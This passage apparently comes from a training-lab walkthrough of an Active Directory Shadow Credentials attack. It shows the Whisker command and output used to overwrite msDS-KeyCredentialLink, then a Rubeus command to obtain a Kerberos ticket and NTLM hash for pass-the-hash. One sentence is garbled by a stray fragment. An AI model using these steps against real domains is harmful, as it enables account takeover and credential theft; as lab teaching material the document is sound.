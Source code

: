 As you can see from the previous output, the user "hr" has the GenericWrite permission over the administrator object visible on the CN attribute. Later, we can compromise the account with that privilege by updating the msDS-KeyCredentialLink with a certificate. This vulnerability is known as the Shadow Credentials attack.

The vulnerable user may not be the same as the administrator; please note that down since you will use it in the exploitation section!

Exploitation

One helpful tool for abusing the vulnerable privilege is Whisker, a C# utility created by Elad Shamir. Using Whisker is straightforward: once we have a vulnerable user, we can run the add command from Whisker to simulate the enrollment of a malicious device, updating the msDS-KeyCredentialLink attribute.

This task can be accomplished by running the following command: 

.\Whisker.exe add /target:Administrator

In your case, you'll have to replace the /target parameter with the one from the enumeration step executed inside your VM.

```
PS C:\Users\hr\Desktop> .\Whisker.exe add /target:Administrator
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password qfyNlIfCjVqzwh1e
[*] Searching for the target account
[*] Target user found: CN=Administrator,CN=Users,DC=AOC,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID ae6efd6c-27c6-4217-9675-177048179106
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:
Rubeus.exe asktgt /user:Administrator /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEHAaCCCW0EgglpMIIJZTCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF/zCCBfsGCyqGSIb[snip] /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```

The tool will conveniently provide the certificate necessary to authenticate the impersonation of the vulnerable user with a command ready to be launched using Rubeus.

The core idea behind the authentication in AD is using the Kerberos protocol, which provides tokens (TGT) for each user. A TGT can be seen as a session token that avoids the credentials prompt after the user authentication.

Rubeus, a C# toolset designed for direct Kerberos interaction and exploitation, was developed by SpecterOps. a pass-the-hash attack! 

You can continue the exploitation by asking for a TGT of the vulnerable user using the certificate generated in the previous command.

Exploit McRed

Once you've obtained the certificate, you can acquire a valid TGT and impersonate the vulnerable user. Additionally, the NTLM hash of the user account can be displayed in the console output, which can be used for a pass-the-hash attack!
